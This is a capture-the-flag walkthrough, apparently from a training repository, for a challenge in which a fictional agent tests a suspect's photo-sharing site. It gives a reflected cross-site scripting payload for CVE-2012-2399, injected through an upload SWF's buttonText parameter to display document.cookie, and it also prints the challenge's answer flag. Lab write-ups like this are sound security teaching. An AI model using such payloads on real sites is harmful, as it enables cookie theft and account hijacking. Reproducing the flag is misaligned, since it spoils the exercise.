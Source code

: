 # 💣 Exposure - L11 C10

One of the Bulldogs, Lara Mindsay, is a surveillance expert and we think she's been using advanced drones to take high resolution photos of the bank from different angles.

She also runs a small legit side project, a photo site which allows anyone to create an account and upload photos. We think she's using it herself to store the bank surveillance photos and so we want to see if it's vulnerable. We've been penetration testing the site but have not had any success so far, then this morning one of the other agents sent me a tip - CVE-2012-2399. Take a look and see if you can use it to see if the site is vulnerable.

**Tip:** Find the vulnerability to get the flag.

```txt
💡 Hint: What does google say about the CVE? Are there examples of ways to take advantage of this flaw?
   If there are then try them out!
```

## Step by Step

- Insert the following as the url

`https://www.photobobbins.com/upload.swf?buttonText=%3Ca%20href=%27javascript:alert(document.cookie)%20%27%3EClick%20me%3C/a%3E`

- The flag should show up

`flag: rbvhuK8ROZ3ZTrfxPfyY`
